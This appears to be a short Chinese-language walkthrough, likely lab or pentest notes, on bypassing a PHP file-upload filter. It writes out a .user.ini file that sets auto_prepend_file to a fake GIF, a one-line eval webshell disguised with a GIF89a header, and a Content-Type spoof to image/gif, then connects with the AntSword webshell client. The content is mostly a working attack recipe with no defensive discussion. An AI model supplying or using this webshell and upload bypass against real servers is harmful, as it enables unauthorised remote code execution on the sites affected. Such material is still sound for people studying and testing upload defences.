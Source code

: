 ![img](./assets/wps582.jpg)

借助.user.ini轻松让所有php文件都“自动”包含某个文件，而这个文件可以是一个正常php文件，也可以是一个包含一句话的webshell。

 

新建一个.user.ini文件

 

![img](./assets/wps583.jpg) 

内容为：

GIF89a

auto_prepend_file=1.gif

 

新建一个1.gif文件

内容为

GIF89a

<?=eval($_REQUEST[c]);

?>

 

上传.user.ini文件

![img](./assets/wps584.jpg) 

修改

Content-Type: application/octet-stream

为

Content-Type: image/gif

成功上传

![img](./assets/wps585.jpg) 

接着上传1.gif 文件

蚁剑连接

![img](./assets/wps586.jpg) 

 

![img](./assets/wps587.jpg) 

 

 